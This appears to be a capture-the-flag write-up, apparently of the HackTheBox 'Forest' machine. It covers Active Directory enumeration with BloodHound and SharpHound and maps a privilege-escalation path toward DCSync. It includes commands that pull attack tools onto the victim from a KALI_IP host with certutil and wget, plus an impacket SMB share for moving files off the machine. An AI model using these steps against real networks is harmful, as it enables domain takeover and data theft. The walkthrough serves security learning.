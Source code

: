 # Local privesc
- We now have a reliable connection to the host and can execute code - time to start local enumeration.
- run linpeas and look it over - nothing interesting....
	- move onto AD enumeration

### Active Directory Enumeration
- You will need to stand up [Bloodhound & neo4j](https://github.com/BloodHoundAD/BloodHound) to view active directory in a graph
	- `sudo /usr/bin/neo4j start ` and then `bloodhound` in terminal
- Bloodhound needs an **aggregator** to pull down the active directory layout of the victim - theres a [few ways](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/bloodhound) to do this, but we'll use [SharpHound](https://github.com/BloodHoundAD/SharpHound)
	- On kali from a directory containing sharphound (preferably all your tools), run `python3 -m http.server 80`
	- On the victim (winrm shell) run `certutil -urlcache -split -f http://KALI_IP/SharpHound.exe`
		- You can pull `wget` to the victim since its easier to type (Ex. `wget KALI_IP/SharpHound.exe`)
	- ![](Pasted%20image%2020230213192611.png)
	- ![](Pasted%20image%2020230213192618.png)
- Running `SharpHound` will result in a `.zip` and `.bin` of which we only **really** need the `.zip`. Theres a few ways to move this like setting up a smb server on kali and transferring the file but this method would be fairly obviously abnormal behavior and stick out in system logs (not that we've been stealthy so far).
	- Instead we will b64 encode the file, `cat` it, and then copy paste it into a kali terminal to a file.
	- `certutil -encode "YOUR_BASE64_TEXT" | base64 -d > forest-ad.zip`
	- **Alternatively** to transfer over SMB....
		- On kali, standup a smb share with `impacket-smbserver shareName sharePath`
			- ![](Pasted%20image%2020230213194246.png)
		- On victim, connect to the share with `net use z: \\$IP\shareName`. Then you can navigate to `z:` or whatever you used, and copy files from windows to this directory. Files copied to here will be transferred to kali.
			- ![](Pasted%20image%2020230213194237.png)
### Navigating bloodhound graph
- Once we succesfully copy over the `.zip` of the AD domain, drag and drop the file into the bloodhound window opened earlier. Then in the search bar, search `svc-alfresco` and mark the user as owned since we have credentials.
- ![](Pasted%20image%2020230213194832.png)
- spooky
- ![](Pasted%20image%2020230213194848.png)
- What we're ultimately after in an AD environment are domain admin accounts. These accounts would give us unparalleled access across the domain. As such, start by searching for `Shortest Paths to Domain Admins from Owned Principals` under the analysis tab. This will generate a search starting with `svc-alfresco` and show the relations that could lead us to domain admin access.
- ![](Pasted%20image%2020230213195026.png)
- This graph shows `svc-alfresco` as a member of the `Service Accounts` group, which is a member of the `Privileged IT` group, which is a member of the `Account Operator` group and so on. The key issue here is that  Account Operators have [GenericAll](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/abusing-active-directory-acls-aces) permissions over the `Exchange Windows Permissions` group, which in turn has `WriteDACL` permissions. These two misconfigurations will allow `svc-alfresco` to leverage full rights to the `Exchange Windows Permissions` group to modify and gain full control of an object through `WriteDACL`.
	- [Account Operator](https://learn.microsoft.com/en-us/windows-server/identity/ad-ds/manage/understand-security-groups#account-operators) group also grants limited account creation capabilities
- The vector now is to leverage our GenericAll perms (granted by the Account Operator group) to modify the [AD  DACL](https://learn.microsoft.com/en-us/windows/win32/secauthz/access-control-lists) using the WriteDACL perm granted by Exchange Windows Permissions group to give `svc-alfresco` [DCSync](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/dcsync) permissions
